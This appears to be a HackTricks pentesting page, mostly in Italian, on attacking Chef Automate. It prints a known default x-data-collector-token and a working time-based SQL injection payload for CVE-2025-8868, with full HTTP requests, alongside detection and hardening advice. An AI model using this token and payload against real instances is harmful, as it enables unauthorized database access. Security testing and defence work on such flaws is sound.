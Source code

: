 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Panoramica

Questa pagina raccoglie tecniche pratiche per enumerare e attaccare istanze Chef Automate, con enfasi su:
- Scoprire endpoint REST supportati da gRPC-Gateway e inferire gli schemi delle richieste tramite risposte di validazione/errore
- Abusare dell'header di autenticazione x-data-collector-token quando sono presenti valori di default
- Blind SQL injection basata sul tempo nella Compliance API (CVE-2025-8868) che interessa il campo filters[].type in /api/v0/compliance/profiles/search

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Ricognizione: Architettura e Impronte

- Front-end: Spesso Angular. I bundle statici possono suggerire i percorsi REST (es., /api/v0/...)
- Trasporto API: REST a gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Impronte del database/driver:
- Corpi di errore che iniziano con pq: suggeriscono fortemente PostgreSQL con il driver Go pq
- Endpoint interessanti di Compliance (autenticazione richiesta):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Autenticazione: Data Collector Token (x-data-collector-token)

Chef Automate espone un data collector che autentica le richieste tramite un header dedicato:

- Header: x-data-collector-token
- Rischio: Alcuni ambienti possono mantenere un token di default che concede accesso a rotte API protette. Valore di default noto osservato in natura:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Se presente, questo token può essere usato per chiamare gli endpoint della Compliance API altrimenti protetti da autenticazione. Tentare sempre di ruotare/disabilitare i valori di default durante l'hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak useful validation errors that describe the expected request model.

Per /api/v0/compliance/profiles/search, il backend si aspetta un body con un array filters, dove ogni elemento è un oggetto con:

- type: string (identificatore del campo filtro)
- values: array of strings

Esempio di struttura della richiesta:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
JSON malformato o tipi di campo errati in genere generano 4xx/5xx con indizi, e gli header indicano il comportamento del gRPC-Gateway. Usali per mappare i campi e localizzare le superfici di iniezione.

## API di Compliance SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: Mancanza di corretta parametrizzazione/whitelisting quando si interpola il campo type in un frammento SQL dinamico (probabilmente usato per costruire identificatori/clausole WHERE). Valori appositamente creati nel campo type vengono valutati da PostgreSQL.

Payload time-based funzionante:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Note sulla tecnica:
- Chiudi la stringa originale con un apice singolo (')
- Concatena una sottoquery che chiama pg_sleep(N)
- Rientra nel contesto della stringa tramite || in modo che la query SQL finale rimanga sintatticamente valida indipendentemente da dove type è inserito

### Prova tramite latenza differenziale

Invia richieste in coppia e confronta i tempi di risposta per convalidare l'esecuzione lato server:

- N = 1 secondo
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 secondi
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- I tempi di risposta aumentano proporzionalmente a pg_sleep(N)
- Le risposte HTTP 500 possono includere dettagli pq: durante le prove, confermando percorsi di esecuzione SQL

> Suggerimento: Usa un validatore dei tempi (es., prove multiple con confronto statistico) per ridurre il rumore e i falsi positivi.

### Impatto

Utenti autenticati—or attori non autenticati che sfruttano un valore di default di x-data-collector-token—possono eseguire SQL arbitrario nel contesto PostgreSQL di Chef Automate, mettendo a rischio la riservatezza e l'integrità dei profili di compliance, della configurazione e della telemetria.

### Versioni interessate / Fix

- CVE: CVE-2025-8868
- Indicazioni per l'aggiornamento: Chef Automate 4.13.295 o successivo (Linux x86) secondo gli avvisi del vendor

## Rilevamento e analisi forense

- Livello API:
- Monitorare i 500 su /api/v0/compliance/profiles/search dove filters[].type contiene virgolette ('), concatenazione (||), o riferimenti a funzioni come pg_sleep
- Ispezionare gli header di risposta per grpc-metadata-content-type per identificare flussi gRPC-Gateway
- Livello database (PostgreSQL):
- Auditare la presenza di chiamate pg_sleep e errori di identificatore malformato (spesso esposti con prefissi pq: provenienti dal driver Go pq)
- Autenticazione:
- Registrare e generare allarmi sull'uso di x-data-collector-token, in particolare sui valori di default noti, attraverso i percorsi API

## Mitigazioni e Hardening

- Immediato:
- Ruotare/disabilitare i token di data collector di default
- Restringere l'ingresso agli endpoint dei data collector; applicare token forti e unici
- A livello di codice:
- Parametrizzare le query; non concatenare mai frammenti SQL con stringhe
- Applicare rigidamente una whitelist dei valori type consentiti sul server (enum)
- Evitare l'assemblaggio dinamico di SQL per identificatori/clausole; se è richiesto comportamento dinamico, usare quoting sicuro degli identificatori e whitelist esplicite

## Checklist pratica per i test

- Verificare se x-data-collector-token viene accettato e se il valore di default noto funziona
- Mappare lo schema di richiesta della Compliance API inducendo errori di validazione e leggendo messaggi di errore/header
- Testare SQLi in campi meno ovvi di tipo “identifier-like” (es., filters[].type), non solo array di values o campi di testo di primo livello
- Usare tecniche basate sul tempo con concatenazione per mantenere SQL sintatticamente valido attraverso i contesti

## Riferimenti

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
